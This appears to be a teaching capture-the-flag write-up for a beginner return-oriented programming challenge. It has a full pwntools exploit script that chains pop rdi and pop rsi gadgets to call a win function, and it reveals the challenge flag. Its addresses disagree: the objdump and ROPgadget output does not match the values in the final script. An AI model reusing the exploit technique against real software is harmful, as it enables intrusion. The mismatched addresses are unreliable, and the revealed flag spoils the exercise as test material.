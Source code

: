 # Challenge Name
babyrop

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
ROOOOOOOOOOPPERS. Tell me the gadgets used as your flag. ex. if rax and rbx are used, then put as `MACCTF{raxrbx}`

## Difficulty:
guided (easy)

## Guide
Looking at the code, we have to use ret2win again for the uncalled `win` function. However, we have to fulfil the function arguments in order to call it.
1. a = 0x1337
2. b = 0xdead

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use 2 arguments, so we need to use `rdi` & `rsi` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `win` function
3. Gadgets

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijn sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the `win` address:
```sh
$> objdump -d chall | grep win
0000000040537 <win>:
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary chall | grep rdi
0x0000000000400603 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary chall | grep rsi
0x0000000000400601 : pop rsi ; pop r15 ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `win` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + argument 1 (rdi)
3. pop rsi address + argument 2 (rsi) + redundent value (r15)
4. return address of `win` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = remote("IP", PORT)

# address of win function
win_addr = p64(0x400757)

# ROP gadget addresses
rdi_addr = p64(0x4008e3)
rsi_addr = p64(0x4008e1)

# payload = 
# padding
# pop rdi + argument 1
# pop rsi + argument 2 + pop r15 (we dont need r15)
# return to win

payload = b'A' * 40
payload += rdi_addr + p64(0x1337)
payload += rsi_addr + p64(0xdead) + p64(0)
payload += win_addr 

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. Ever heard of ROPgadgets/ropper/rp++?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- chall.c
- chall

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html


## Flag
`MACCTF{rdirsi}`